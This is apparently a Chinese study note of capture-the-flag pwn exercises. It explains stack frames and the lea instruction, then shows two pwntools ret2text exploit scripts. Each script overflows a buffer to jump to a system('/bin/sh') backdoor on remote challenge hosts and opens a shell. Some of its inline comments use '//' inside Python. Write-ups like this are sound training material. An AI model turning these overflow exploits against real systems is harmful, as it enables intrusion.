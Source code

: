 

[TOC]



# pwn练习题

## 栈溢出之 ret2text / ret2win

###  pwnstack 攻防世界

解题步骤

1.检查程序安全机制

```shell
checksec pwn2
```

2.IDA逆向分析

3.找到后门函数的开始地址

4.编写exp

```python
from pwn import *
p=remote("61.147.171.105",59432)
payload=b'a'*0xa8+p64(0x400762)
//b:表示'a'*0xa8是字节串
//p64():把 64-bit 整数变成 8 个字节的 bytes
//0xa8:观察到char buf[160];之后再加上保存的 RBP（8 字节），总偏移为 160 + 8 = 168（0xa8）
p.sendline(payload)
p.interactive()
```

5.ls查看文件，然后发现有一个叫flag的文件，cat查看文件，得到flag

### ret2text CTFHub技能树

跳过保护调查和逆向过程。

​																							————前置知识————

EBP：基址指针寄存器，指向栈底。32位环境：EBP;64位环境：RBP

栈顶：SP。

栈帧：程序运行时在栈上分配的一块内存区域。包含了函数调用时的各种状态信息。

> 栈帧的结构通常包括以下几个部分：
>
> 局部变量区：存放函数内部定义的局部变量。
> 参数区：存放函数调用时传递的参数值。
> 返回地址：存放函数执行完毕后，程序需要返回到的地址。
> 寄存器保存区：存放函数执行过程中需要暂时保存的寄存器值。

汇编语言的lea指令：用于加载有效指令到寄存器，类似于c语言中的**&**符号，可以获取数据的地址而不是数据本身。

```
; 将地址表达式的值放入EAX寄存器
lea eax, [addr]

; 将EBX寄存器的值赋给EAX
lea eax, dword ptr [ebx]

; 将变量c的地址赋给EAX
lea eax, c
```

和MOV的区别：MOV是对值操作，而lea对地址操作

![image-20250913162111216](C:\Users\DELL\AppData\Roaming\Typora\typora-user-images\image-20250913162111216.png)

发现main函数中存在无限制的gets函数，存在栈溢出。

猜测main函数的栈帧结构：

局部变量s，用户由gets()输入，只要达到特定长度，就可以覆盖掉栈帧中的返回地址。

接下来发现secure函数![image-20250913163542746](C:\Users\DELL\AppData\Roaming\Typora\typora-user-images\image-20250913163542746.png)

由于函数中调用了`system ("/bin/sh")` 猜测获取flag是通过执行system得到shell，然后再执行命令。

我们覆盖掉栈帧的返回地址之后，让返回地址指向`system ("/bin/sh")`所在语句对应的内存地址就能获得shell

故我们有两个关键值需要获得：

1.特定长度L，覆盖掉EBP 

2.`system ("/bin/sh")`所在语句对应的内存地址

![image-20250913164508370](C:\Users\DELL\AppData\Roaming\Typora\typora-user-images\image-20250913164508370.png)

在main函数的汇编语言界面，由 sub rsp,70h(h:十六进制)  且在64位系统中，故要覆盖掉ebp，就要再加8字节。L=0x70+8=0x78

![image-20250913165132783](C:\Users\DELL\AppData\Roaming\Typora\typora-user-images\image-20250913165132783.png)

接下来看secure函数的汇编语言界面，看注释得到地址为0x4007b8

得到这两个变量之后，开始着手编写exp脚本

```python
from pwn import *
host = 'challenge-271840472e9d9a32.sandbox.ctfhub.com'
port = 37614
p=connect(host,port)
payload=b'A'*0x78+p64(0x4007b8)//在pwn中，recv和send、sendline都是使用的byte型 b:告诉python这个字符串是以字节序列的形式表示的，而不是普通字符串。 p64：用于将整数打包成64位的字节序列。
p.sendline(payload)
p.interactive()
```

之后ls，cat得到flag